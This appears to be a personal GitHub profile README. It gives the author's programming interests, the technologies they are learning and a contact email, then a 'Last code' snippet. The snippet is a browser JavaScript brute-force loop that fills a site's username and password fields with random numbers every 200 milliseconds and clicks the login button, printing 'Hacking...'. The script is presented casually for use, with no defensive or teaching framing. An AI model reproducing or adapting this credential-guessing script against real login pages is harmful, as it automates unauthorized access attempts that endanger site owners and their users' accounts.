 - 👋 Hi, I’m @H4YKM
- 👀 I’m interested in programming, motion design, web developing, web design & more
- 🌱 I’m currently learning JavaScript, Vue, React, Angular, Node, Express & more!
- 💞️ I’m looking to collaborate on courses and code
- 📫 How to reach me haykm2006@gmail.com

Last code:

```
const login = document.getElementById('username')
const password = document.getElementById('password')
const button = document.querySelector('.fadeIn.third.shadow')

function generateRandomInteger(min, max) {
    return Math.floor(min + Math.random() * (max + 1 - min))
}

setInterval(() => {
        const number = generateRandomInteger(10000, 50000) // Max number, min number
        login.value = number
        password.value = number

        console.log('Hacking...')
        button.click()
    }, 200) // Change interval
```

